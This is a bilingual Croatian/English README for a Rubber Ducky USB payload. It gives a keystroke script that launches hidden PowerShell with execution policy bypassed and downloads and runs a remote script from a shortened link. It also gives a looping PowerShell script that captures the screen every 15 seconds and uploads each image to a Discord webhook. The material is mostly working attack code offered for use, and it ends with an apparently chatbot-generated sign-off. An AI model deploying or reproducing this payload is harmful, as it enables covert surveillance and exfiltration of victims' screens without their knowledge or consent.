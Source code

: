 ### README.md 

# Screenshot na Discord Webhook

Ova skripta omogućuje automatsko slanje screenshotova s vašeg računala na Discord kanal koristeći webhook. Skripta koristi PowerShell za snimanje zaslona, a Rubber Ducky uređaj za automatsko pokretanje procesa.

## Instalacija i Postavljanje

### 1. Rubber Ducky Skripta

Ovdje je skripta koju treba prenijeti na vaš **Rubber Ducky uređaj**. Ova skripta će otvoriti PowerShell, preuzeti PowerShell skriptu s poslužitelja i izvršiti ju.

**Rubber Ducky Skripta:**

```plaintext
DELAY 1000
GUI r
DELAY 750
STRING powershell -NoP -Ep Bypass -W H -C $dc='WEBHOOK_HERE'; irm https://is.gd/CF0P74 | iex
ENTER
```

Zamijenite `WEBHOOK_HERE` s stvarnim Discord webhook URL-om.

### 2. PowerShell Skripta (preuzeta s internetskog linka)

Ovdje je sadržaj PowerShell skripte koja će preuzeti screenshot i poslati ga na Discord webhook:

```powershell
$hookurl = $dc
$seconds = 15
Add-Type -AssemblyName System.Windows.Forms
Add-type -AssemblyName System.Drawing
while ($true) {
    $Filett = "$env:temp\SC.png"
    $Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen
    $Width = $Screen.Width
    $Height = $Screen.Height
    $Left = $Screen.Left
    $Top = $Screen.Top
    $bitmap = New-Object System.Drawing.Bitmap $Width, $Height
    $graphic = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphic.CopyFromScreen($Left, $Top, 0, 0, $bitmap.Size)
    $bitmap.Save($Filett, [System.Drawing.Imaging.ImageFormat]::Png)
    curl.exe -F "file1=@$Filett" $hookurl
    Remove-Item -Path $Filett
    Start-Sleep $seconds
}
```

### 3. Pokretanje

1. Spojite **Rubber Ducky uređaj** na računalo.
2. Skripta će automatski otvoriti PowerShell, preuzeti i pokrenuti PowerShell skriptu koja snima screenshotove.
3. Svakih 15 sekundi, skripta će snimiti sliku ekrana i poslati je na Discord kanal.

## Upute za prilagodbu

* **Interval između screenshotova**: Ako želite promijeniti interval između slanja screenshotova, uredite vrijednost `$seconds` u PowerShell skripti.
* **Webhook URL**: Promijenite `WEBHOOK_HERE` u stvarni URL vašeg Discord webhook-a.

---

### README.md (in English)

# Screenshot to Discord Webhook

This script allows automatic screenshot capturing from your computer and sends them to a Discord channel using a webhook. It uses PowerShell to capture the screen and a Rubber Ducky device to automate the process.

## Installation and Setup

### 1. Rubber Ducky Script

Here is the script you need to upload to your **Rubber Ducky device**. This script will open PowerShell, download the PowerShell script from the server, and execute it.

**Rubber Ducky Script:**

```plaintext
DELAY 1000
GUI r
DELAY 750
STRING powershell -NoP -Ep Bypass -W H -C $dc='WEBHOOK_HERE'; irm https://is.gd/CF0P74 | iex
ENTER
```

Replace `WEBHOOK_HERE` with your actual Discord webhook URL.

### 2. PowerShell Script (downloaded from internet link)

Here is the content of the PowerShell script that will capture the screenshot and send it to the Discord webhook:

```powershell
$hookurl = $dc
$seconds = 15
Add-Type -AssemblyName System.Windows.Forms
Add-type -AssemblyName System.Drawing
while ($true) {
    $Filett = "$env:temp\SC.png"
    $Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen
    $Width = $Screen.Width
    $Height = $Screen.Height
    $Left = $Screen.Left
    $Top = $Screen.Top
    $bitmap = New-Object System.Drawing.Bitmap $Width, $Height
    $graphic = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphic.CopyFromScreen($Left, $Top, 0, 0, $bitmap.Size)
    $bitmap.Save($Filett, [System.Drawing.Imaging.ImageFormat]::Png)
    curl.exe -F "file1=@$Filett" $hookurl
    Remove-Item -Path $Filett
    Start-Sleep $seconds
}
```

### 3. Running

1. Plug in the **Rubber Ducky device** to the computer.
2. The script will automatically open PowerShell, download, and run the PowerShell script that captures the screenshots.
3. Every 15 seconds, the script will take a screenshot and send it to the Discord channel.

## Customization Instructions

* **Screenshot Interval**: If you want to change the interval between screenshots, modify the `$seconds` value in the PowerShell script.
* **Webhook URL**: Change `WEBHOOK_HERE` to your actual Discord webhook URL.

---

Nadam se da je ovo sada u skladu s tvojim željama!
